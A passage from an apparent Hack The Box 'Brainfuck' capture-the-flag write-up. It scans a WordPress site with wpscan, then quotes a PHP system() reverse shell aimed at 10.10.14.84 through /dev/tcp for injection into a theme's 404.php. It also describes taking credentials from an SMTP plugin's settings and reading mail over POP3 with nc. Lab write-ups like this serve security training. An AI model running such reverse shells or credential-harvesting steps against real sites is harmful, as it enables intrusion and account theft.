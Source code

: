 ```bash
wpscan --help
wpscan --url https://brainfuck.htb
# SSL peer certificate or SSH remote key was not OK
wpscan --url https://brainfuck.htb --disable-tls-checks
# --> Location: https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/
```

<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I try to access the machine in the simplest way I know, which is to modify the **404.php** file of the Theme and inject a code in **PHP** to send me a **Reverse Shell**, but after several attempts I notice that I don't have the necessary permissions to save the changes. So I investigate a bit the **Dashboard** and I find in the **Easy WP SMTP** plugin the credentials of the **`orestis`** user.

```html
# Appearance --> Editor --> 404.php
# system("bash -c 'bash -i >&/dev/tcp/10.10.14.84/443 0 0>&1'");

# Settings -> Easy WP SMTP Settings -> [Source code: password -> text]
```

<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

With the credentials obtained, I first try to connect via **SSH**, but password access is disabled, a public key is needed, but if I try on port **110** with `nc`, I achieve my goal. Once authenticated, I list the saved messages, and in the last one I find new credentials. From the content of the message, it makes me suspect that they are from the web service on the subdomain that I had found in the **Reconnaissance** phase. The credentials are valid and access a Forum where secrets are stored and shared.
